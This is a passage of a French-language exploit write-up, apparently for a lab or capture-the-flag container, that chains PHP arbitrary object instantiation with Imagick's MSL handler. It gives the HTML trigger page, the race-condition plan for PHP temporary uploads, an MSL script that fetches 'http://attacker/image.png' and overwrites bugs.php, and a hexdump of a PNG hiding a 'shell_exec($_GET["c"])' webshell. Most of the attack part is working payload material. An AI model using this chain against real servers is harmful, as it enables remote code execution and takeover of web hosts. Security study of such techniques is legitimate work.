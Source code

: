 En respectant le blogpost de [Swarm Pt Security](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/), notre scénario d'attaque est donc le suivant :
1. Forger une page HTML faisant incluant une référence `<img src="vid:msl:/tmp/php*">` où `vid:msl:/tmp/php*` est notre paramètre malveillant passé à Imagick. Imagick va alors tenter de charger les images dont le nom est `/tmp/php*`.
2. On utilise le mécanisme d'upload de fichier par défaut de PHP pour créer un fichier ayant pour nom `/tmp/php*`. En effet, PHP accepte l'ensemble des fichiers le temps de son exécution et les sauvegarde sous la forme `/tmp/php[random]`. Une fois la fin de page exécutée, le fichier temporaire est supprimé.
3. Afin de maximiser les chances d'inclure notre fichier, on multiplie et parallélise les deux requêtes (race-condition avec multithreading).
4. Le contenu du fichier envoyé est un script MSL permettant la création d'un fichier.

#### Page HTML

Le fichier index.html est desservi sous une route joignable du container (ici `http://attacker/`), par exemple à l'aide d'un VPS, de [ngrok](https://ngrok.com/), [beeceptor](https://beeceptor.com/) ou encore [pastbin](https://pastebin.com/).

```html
<html>
    <head></head>
    <body>
        <img src="vid:msl:/tmp/php*">
    </body>
</html>
```

#### Image malveillante envoyée

L'image envoyée au format MSL (malveillant.msl) est la suivante. Ici le contenu de l'image `http://attacker/image.png` est réécrit par-dessus le fichier bugs.php (`www-data` ayant les droits d'écriture sur ce fichier).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
    <read filename="http://attacker/image.png" />
    <write filename="/var/www/html/bugs.php" />
</image>
```

#### Image.png

Pour maximiser les chances d'exploitation, l'image réécrite sur bugs.php doit être une image PNG valide avec un code PHP dans son contenu. L'utilisation d'une image minimaliste avec l'ajout du webshell dans les métadonnées ou l'ajout à la fin du fichier PNG permet de maximiser ces chances. Lien de l'image: [image.png](image.png).

L'image doit également être desservie sous l'URL `http://attacker/image.png`.

```bash
xxd image.png
```
```raw
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 0001 0000 0001 0103 0000 0025 db56  .............%.V
00000020: ca00 0000 0467 414d 4100 00b1 8f0b fc61  .....gAMA......a
00000030: 0500 0000 2063 4852 4d00 007a 2600 0080  .... cHRM..z&...
00000040: 8400 00fa 0000 0080 e800 0075 3000 00ea  ...........u0...
00000050: 6000 003a 9800 0017 709c ba51 3c00 0000  `..:....p..Q<...
00000060: 0650 4c54 45ff 0000 ffff ff41 1d34 1100  .PLTE......A.4..
00000070: 0000 0162 4b47 4401 ff02 2dde 0000 0007  ...bKGD...-.....
00000080: 7449 4d45 07e7 0b07 0914 000c ed64 e800  tIME.........d..
00000090: 0000 0a49 4441 5408 d763 6000 0000 0200  ...IDAT..c`.....
000000a0: 01e2 21bc 3300 0000 3474 4558 7443 6f70  ..!.3...4tEXtCop
000000b0: 7972 6967 6874 003c 3f70 6870 2076 6172  yright.<?php var
000000c0: 5f64 756d 7028 7368 656c 6c5f 6578 6563  _dump(shell_exec
000000d0: 2824 5f47 4554 5b22 6322 5d29 293b 203f  ($_GET["c"])); ?
000000e0: 3eb6 f229 0e00 0000 2574 4558 7464 6174  >..)....%tEXtdat
```